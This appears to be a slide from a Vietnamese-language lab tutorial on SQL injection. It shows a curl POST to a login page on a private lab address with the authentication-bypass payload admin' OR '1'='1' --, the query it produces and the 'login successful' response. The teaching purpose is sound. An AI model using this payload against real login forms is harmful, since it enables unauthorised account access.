

Bước 2: Sử dụng curl để tấn công
Trên máy tấn công, mở terminal:
curl "http://192.168.198.132/login.php" --data "username=admin' OR '1'='1' --&password=123"

Giải thích:
Gửi request POST với payload SQL Injection.
Truy vấn SQL:
SELECT * FROM users WHERE username = ‘admin’ OR ‘1’=’1’
Kết quả: Nhận được phản hồi “Đăng nhập thành công!” từ server.